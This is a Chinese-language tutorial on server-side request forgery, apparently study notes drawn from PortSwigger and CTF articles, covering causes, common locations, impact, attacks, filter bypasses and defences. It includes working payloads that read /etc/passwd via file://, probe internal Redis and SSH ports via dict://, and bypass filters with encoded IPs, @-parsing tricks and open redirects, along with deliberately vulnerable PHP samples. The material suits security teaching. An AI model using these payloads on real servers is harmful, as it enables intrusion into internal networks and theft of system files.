





# SSRF

## 介绍

SSRF 是一种由攻击者构造形成并`由服务端发起恶意请求`的一个安全漏洞，正是因为恶意请求是由服务器发起的，我们就可以利用此来访问服务器可以访问的内部网络系统，所以一般情况下，SSRF 攻击目标都是攻击者无法直接访问的内网系统。

> 如下图所示，服务器Ubuntu为WEB服务器，可被攻击者访问，内网中的其他服务器无法被攻击者直接访问。假设服务器Ubuntu中的某个WEB应用存在SSRF漏洞，那我们就可以操作这个WEB服务器去读取本地的文件、探测内网主机存活、探测内网主机端口等，如果借助相关网络协议，我们还可以攻击内网中的Redis、MySql、FastCGI等应用，WEB服务器在整个攻击过程中被作为中间人进行利用。

<figure><figcaption></figcaption></figure>

## 原因

服务端提供了从其他服务器应用获取数据的功能，但是没有对目标地址进行限制和过滤。例如，黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址的图片，下载等，利用的就是服务端请求伪造，SSRF漏洞可以利用存在缺陷的WEB应用作为代理攻击远程和本地的服务器。

## 位置

1. 社交分享功能：获取超链接的标题等内容进行显示
2. 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
3. 在线翻译：给网址翻译对应网页的内容
4. 图片加载/下载：例如富文本编辑器中的点击下载图片到本地、通过URL地址加载或下载图片
5. 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验
6. 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试
7. 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作
8. 数据库内置功能：数据库的比如mongodb的copyDatabase函数
9. 邮件系统：比如接收邮件服务器地址
10. 编码处理、属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等
11. 未公开的api实现以及其他扩展调用URL的功能：可以利用google语法加上这些关键字去寻找SSRF漏洞。一些的url中的关键字有：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……
12. 从远程服务器请求资源

## 危害

1. 对外网、服务器所在内网、服务器本地进行端口扫描，获取一些服务的banner信息等。
2. 攻击运行在内网或服务器本地的其他应用程序，如redis、mysql等。
3. 对内网Web应用进行指纹识别，识别企业内部的资产信息。
4. 攻击内外网的Web应用，主要是使用HTTP GET/POST请求就可以实现的攻击，如sql注入、文件上传等。
5. 利用file协议读取服务器本地文件等。
6. 进行跳板攻击等。

## 攻击

### 1. 针对服务器本身的 SSRF 攻击

攻击者通过诱导应用程序通过其环回网络接口向托管应用程序的服务器发出 HTTP 请求

```shell
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

服务器将会获取 /admin 的内容返回给用户

> 为什么应用程序会以这种方式运行，并且隐含的信任来自本地机器的请求？
>
> * 访问控制检查，在应用程序服务器的不同组件中实现，当连接返回到服务器本身时，将绕过检查
> * 出于灾难恢复的目的，应用程序可能允许来自本地计算机中的任何用户无需登陆即可进行管理访问
> * 管理界面可能侦听与主应用程序不同的端口号，因此用户可能无法直接访问

### 2. 针对其他后端系统的 SSRF 攻击

服务器端请求伪造经常出现的另一种信任关系是应用程序服务器能够与用户无法直接访问的其他后端系统进行交互。这些系统通常具有不可路由的私有 IP 地址。由于后端系统通常受到网络拓扑的保护，因此它们的安全状况通常较弱。在许多情况下，内部后端系统包含敏感功能，任何能够与系统交互的人无需身份验证即可访问这些功能。

```shell
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

### 3. 盲 SSRF 漏洞

`建议查看原文-->` [**链接**](https://portswigger.net/web-security/ssrf/blind)

> 当可以诱导应用程序向提供的 URL 发出后端 HTTP 请求，但`后端请求的响应未在应用程序的前端响应中返回时`，就会出现盲目 SSRF 漏洞。
>
> 盲目 SSRF 通常更难利用，但有时会导致在服务器或其他后端组件上完全远程执行代码。

#### 1. 影响

由于单向性，盲目 SSRF 漏洞的影响通常低于完全知情的 SSRF 漏洞。不能轻易利用它们从后端系统检索敏感数据，尽管在某些情况下可以利用它们来实现完全远程代码执行。

### 4. 读取服务器文件

```shell
ssrf.php?url=file:///etc/passwd
ssrf.php?url=file:///var/www/html/flag.php
```

### 5. 探测内网存活主机 (http/s 协议)

```shell
ssrf.php?url=http://192.168.52.1
ssrf.php?url=http://192.168.52.6
ssrf.php?url=http://192.168.52.25
......
```

### 6. 扫描内网端口（http/s和dict协议）

```shell
ssrf.php?url=dict://192.168.52.131:6379/info   // redis
ssrf.php?url=dict://192.168.52.131:80/info     // http
ssrf.php?url=dict://192.168.52.130:22/info   // ssh
```

## 绕过

### 1. 基于黑名单的输入过滤器的 SSRF

某些应用程序会阻止包含主机名（如`127.0.0.1`和`localhost`）或敏感 URL（如`/admin`. 在这种情况下，您通常可以使用各种技术来绕过过滤器

*   使用 的替代 IP 表示形式`127.0.0.1`，例如`2130706433`、`017700000001`或`127.1`。

    ```shell
    http://localhost/         # localhost就是代指127.0.0.1
    http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
    http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
    http://[::]:80/           # 在liunx下可用，window测试了下不行
    http://127。0。0。1/       # 用中文句号绕过
    http://①②⑦.⓪.⓪.①
    http://127.1/
    http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
    ```
* 注册您自己的解析为`127.0.0.1`. 您可以`spoofed.burpcollaborator.net`用于此目的。
* 使用 URL 编码或大小写变体混淆被阻止的字符串。

### 2. 基于白名单的输入过滤器的 SSRF

一些应用程序只允许输入匹配、开头或包含允许值的白名单。在这种情况下，您有时可以利用 URL 解析中的不一致来绕过过滤器。

*   `@`您可以使用字符 在主机名之前的 URL 中嵌入凭据。例如：

    ```shell
    https://expected-host@evil-host

    http://abc@127.0.0.1
    实际上是以用户名abc连接到站点127.0.0.1，同理
    ```
*   您可以使用该`#`字符来指示 URL 片段。例如：

    ```shell
    https://evil-host#expected-host
    ```
*   您可以利用 DNS 命名层次结构将所需输入放入您控制的完全限定 DNS 名称中。例如：

    ```shell
    https://expected-host.evil-host
    # 原理是DNS解析。xip.io可以指向任意域名，即
    127.0.0.1.xip.io，可解析为127.0.0.1
    ```
* 您可以对字符进行 URL 编码以混淆 URL 解析代码。如果实现过滤器的代码处理 URL 编码字符的方式与执行后端 HTTP 请求的代码不同，这将特别有用。
* 您可以结合使用这些技术。

### 3. 通过开放重定向绕过 SSRF 过滤器

有时可以通过利用开放重定向漏洞来规避任何类型的基于过滤器的防御。

在前面的 SSRF 示例中，假设用户提交的 URL 被严格验证以防止恶意利用 SSRF 行为。但是，允许使用 URL 的应用程序存在开放重定向漏洞。如果用于发出后端 HTTP 请求的 API 支持重定向，您可以构建一个满足过滤器的 URL，并将请求重定向到所需的后端目标。

例如，假设应用程序包含一个开放重定向漏洞，其中包含以下 URL：

```shell
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

返回重定向到：

```shell
http://evil-user.net
```

可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，方法如下：

```shell
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> 此 SSRF 漏洞利用之所以有效，是因为应用程序首先验证提供的`stockAPI`URL 是否位于允许的域中，而事实确实如此。然后应用程序请求提供的 URL，这会触发打开重定向。它遵循重定向，并向攻击者选择的内部 URL 发出请求。

### 4. 短地址绕过

直接使用生成的短连接 https://4m.cn/FjOdQ就会自动302跳转到 http://127.0.0.1/flag.php上，这样就可以绕过WAF了：

<figure><figcaption></figcaption></figure>

### 5. 利用不存在的协议绕过指定协议头

`file_get_contents()`函数的一个特性，即当PHP的`file_get_contents()`函数在遇到不认识的协议头时候会将这个协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。（include()函数也有类似的特性）

```php
// ssrf.php
<?php
highlight_file(__FILE__);
if(!preg_match('/^https/is',$_GET['url'])){
die("no hack");
}
echo file_get_contents($_GET['url']);
?>
// 这里只显示了 https 开头的路径
    
ssrf.php?url=httpsssss://../../../../../../etc/passwd
```

### 6. URL 解析问题

> 该思路来自Orange Tsai成员在2017 BlackHat 美国黑客大会上做的题为[《A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages》](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)的分享。主要是利用readfile和parse\_url函数的解析差异以及curl和parse\_url解析差异来进行绕过。

#### 1. **利用readfile和parse\_url函数的解析差异绕过指定的端口**

```php
// ssrf.php
<?php
$url = 'http://'. $_GET[url];
$parsed = parse_url($url);
if( $parsed[port] == 80 ){  // 这里限制了我们传过去的url只能是80端口的
	readfile($url);
} else {
	die('Hacker!');
}
```

上述代码限制了我们传过去的url只能是80端口的，但如果我们想去读取11211端口的文件的话，我们可以用以下方法绕过：

```shell
ssrf.php?url=127.0.0.1:11211:80/flag.txt
```

<figure><figcaption></figcaption></figure>

从上图中可以看出readfile()函数获取的端口是最后冒号前面的一部分（11211），而parse\_url()函数获取的则是最后冒号后面的的端口（80），利用这种差异的不同，从而绕过WAF。

这两个函数在解析host的时候也有差异，如下图：

<figure><figcaption></figcaption></figure>

> readfile()函数获取的是@号后面一部分（evil.com），而parse\_url()函数获取的则是@号前面的一部分（google.com），利用这种差异的不同，我们可以绕过题目中parse\_url()函数对指定host的限制。

#### 2. **利用curl和parse\_url的解析差异绕指定的host**

<figure><figcaption></figcaption></figure>

从上图中可以看到curl()函数解析的是第一个@后面的网址，而parse\_url()函数解析的是第二个@后面的网址。利用这个原理我们可以绕过题目中parse\_url()函数对指定host的限制。

```php
<?php
highlight_file(__FILE__);
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;// 检查是否是内网ip
}
function safe_request_url($url)
{
    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }
}
$url = $_GET['url'];
if(!empty($url)){
    safe_request_url($url);
}
?>
```

> 上述代码中可以看到`check_inner_ip`函数通过`url_parse()`函数检测是否为内网IP，如果不是内网 IP ，则通过`curl()`请求 url 并返回结果，我们可以利用curl和parse\_url解析的差异不同来绕过这里的限制，让`parse_url()`处理外部网站网址，最后`curl()`请求内网网址。paylaod如下：

```shell
ssrf.php?url=http://@127.0.0.1:80@www.baidu.com/flag.php
```

## 防御

1. 禁用不需要的协议(如：`file:///`、`gopher://`,`dict://`等)。仅仅允许http和https请求
2. 统一错误信息，防止根据错误信息判断端口状态
3. 禁止302跳转，或每次跳转，都检查新的Host是否是内网IP，直到抵达最后的网址
4. 设置URL白名单或者限制内网IP

## 参考

* [portswigger 学院](https://portswigger.net/web-security/ssrf)
* [CTF SSRF 漏洞从 0 到 1](https://www.freebuf.com/articles/web/260806.html)
